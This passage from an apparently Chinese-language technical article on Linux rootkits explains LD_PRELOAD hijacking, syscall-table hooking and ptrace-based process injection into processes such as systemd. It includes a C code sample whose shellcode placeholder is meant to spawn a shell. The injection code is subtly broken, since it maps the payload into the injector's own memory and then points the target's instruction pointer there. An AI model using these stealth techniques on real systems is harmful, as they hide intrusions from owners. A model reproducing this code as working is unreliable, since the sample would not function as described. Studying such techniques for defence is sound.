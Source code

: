 原理是通过设置`LD_PRELOAD`环境变量加载恶意共享库，覆盖标准库函数。技术上，`LD_PRELOAD`利用Linux动态链接器的优先加载机制，将恶意函数置于标准库之前

####    进程注入
通过将恶意代码注入合法进程（如`systemd`）用以隐藏行为。例如使用`ptrace`注入代码：

```CPP
void inject_code(pid_t pid, unsigned char *code, size_t len) {
    //1、首先通过mmap分配一块可读、可写、可执行的内存，将shellcode复制进去
    void *mem = mmap(NULL, len, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (mem == MAP_FAILED) {
        perror("mmap error");
        return;
    }
    memcpy(mem, code, len);

    //2、使用ptrace的PTRACE_ATTACH附加到目标进程，获取其寄存器状态（struct user_regs_struct），修改指令指针rip指向注入的代码
    if (ptrace(PTRACE_ATTACH, pid, NULL, NULL) == -1) {
        perror("ptrace error");
        return;
    }

    struct user_regs_struct regs;
    ptrace(PTRACE_GETREGS, pid, NULL, &regs);
    regs.rip = (unsigned long)mem;
    ptrace(PTRACE_SETREGS, pid, NULL, &regs);

    //3、分离进程让其执行恶意代码
    ptrace(PTRACE_DETACH, pid, NULL, NULL);
}

unsigned char sample_code[] = {
    // put your shellcode
    // 如[Linux process injection](https://github.com/W3ndige/linux-process-injection?tab=readme-ov-file)
    // 通过此shellcode可以实现system("/bin/sh")的功能
};

int main() {
    pid_t target_pid = 1234; // 目标进程
    inject_code(target_pid, sample_code, sizeof(sample_code));
    return 0;
}
```

它的原理是利用`ptrace`将恶意shellcode注入合法进程的内存空间，代码运行于内存，无需磁盘文件，隐蔽性高于`LD_PRELOAD`

##  0x03    内核态rootkit
内核态rootkit运行在Ring 0，控制系统资源且隐蔽性极高

####    系统调用表劫持
通过修改`sys_call_table`替换系统调用函数。[`sys_call_table`机制](https://pandaychen.github.io/2025/03/01/A-LINUX-KERNEL-TRAVEL-7/#kallsyms)，如替换`sys_getdents`隐藏文件的代码，一般采用LKM技术实现（LKM是唯一支持运行时动态修改内核系统调用表的实用方案）
